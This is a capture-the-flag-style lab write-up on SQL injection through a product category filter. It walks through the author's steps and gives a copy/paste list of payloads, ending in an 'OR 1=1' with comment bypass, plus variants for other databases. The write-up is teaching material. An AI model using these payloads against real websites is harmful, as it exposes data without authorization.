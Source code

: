 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

A concise write‑up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**SHOW HIDDEN DATA** (all categories, including any hidden ones).

---

## ✅ My Exact Steps (Verbatim)

1. **Understanding the GOAL, SHOW HIDDEN DATA**

2. **My first step is always to click everywhere, spam the website with clicks.**

3. **i Found 2 urls, first i tried `productId=payload` and it didn't seem to click**

4. **in another url i found that `/filter?category=Gifts'` raising an error 500 - internal server error.**

5. **Fixing the issue: `/filter?category=Gifts''`**

6. **Connecting finding to our goal, we need to show all categories (some might be hidden)**

7. **Exploiting further: `/filter?category=Gifts'+or+1=1'` -> still raising an error.**

8. **Assumption: Query goes like this:**
   ```sql
   SELECT * FROM products WHERE category='Gifts'+or+1=1''
   ```

9. **SQL Raise en error because getting a literal string at the end (`''`)**

10. **Solution: We will try to comment the end of the line: `/filter?category=Gifts'+or+1=1+--+`**

11. **Lab Solved!**

---

## 🧠 Minimal Additions (Why This Works)

- The server likely builds a query like:
  ```sql
  SELECT * FROM products WHERE category = '<USER_INPUT>'
  ```
  When we send `Gifts'+or+1=1'`, we break out of `'Gifts'` and inject `OR 1=1` which makes the predicate **always true**.

- The error happens because there is an **extra trailing quote** (`''`). To avoid the parser error, we **comment out** the rest of the line.

- `--` is a SQL single‑line comment in many databases. It comments out everything **to the end of the line**. We add a trailing space after `--` so the server does not append any more tokens. In URLs, a space is often encoded as `+`, so `--+` ensures the comment is effective.

- `+` in these URLs represents a **space** (URL‑encoded space). So `or+1=1` is the same as `OR 1=1`.

---

## 🔧 Payloads I Used (Copy/Paste)

```text
/filter?category=Gifts'
/filter?category=Gifts''
/filter?category=Gifts'+or+1=1'
/filter?category=Gifts'+or+1=1+--+
```

> Use them in order; the last one is the **working** payload that reveals **all categories** (including hidden).

---

## 🧩 Notes

- If the backend trims/normalizes whitespace differently, you can also try comment variants like `-- -`, `--%20`, or inline comments (e.g., `/* ... */`) depending on DB flavor.
- The objective is to **neutralize** the remaining `'` and any **trailing syntax** the application appends to your input.

---

## 🏁 Result
All categories (visible + hidden) are shown. **Lab Solved. ✅**
